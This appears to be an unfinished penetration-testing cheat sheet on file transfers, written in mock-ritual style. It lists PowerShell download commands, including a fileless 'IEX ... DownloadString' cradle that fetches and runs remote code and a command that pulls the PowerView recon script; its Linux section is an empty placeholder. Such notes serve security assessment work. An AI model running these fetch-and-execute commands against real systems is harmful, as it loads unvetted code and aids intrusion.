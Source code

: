<h1>📁 File Transfers</h1>

<p>In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.</p>

<blockquote><em>“No summoning may begin until the runes are in place.”</em></blockquote>

<hr/>

<details>
  <summary><strong>Windows</strong></summary>
  <hr/>

  <details>
    <summary><strong>PowerShell DownloadFile Method</strong></summary>
    <p><strong>Sync</strong></p>
    <pre><code class="language-powershell">
(New-Object Net.WebClient).DownloadFile('&lt;FILE URL&gt;','&lt;OUTPUT FILE NAME&gt;')
    </code></pre>

  <p><strong>Async</strong></p>
  <pre><code class="language-powershell">
(New-Object Net.WebClient).DownloadFileAsync('&lt;FILE URL&gt;','&lt;OUTPUT FILE NAME&gt;')
    </code></pre>
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>
    <p><strong>Base</strong></p>
    <pre><code class="language-powershell">
IEX (New-Object Net.WebClient).DownloadString('&lt;FILE URL&gt;')
    </code></pre>

  <p><strong>Pipeline input</strong></p>
  <pre><code class="language-powershell">
(New-Object Net.WebClient).DownloadString('&lt;FILE URL&gt;') | IEX
    </code></pre>
  </details>
//
  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>
    <p><strong>Base</strong></p>
    <pre><code class="language-powershell">
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
    </code></pre>
  </details>

  <hr/>
</details>

<hr/>

<details>
  <summary><strong>Linux</strong></summary>
  <hr/>

  <details>
    <summary><strong>TITLE</strong></summary>
    <p>Contenido del subtema Linux.</p>
  </details>

  <hr/>
</details>
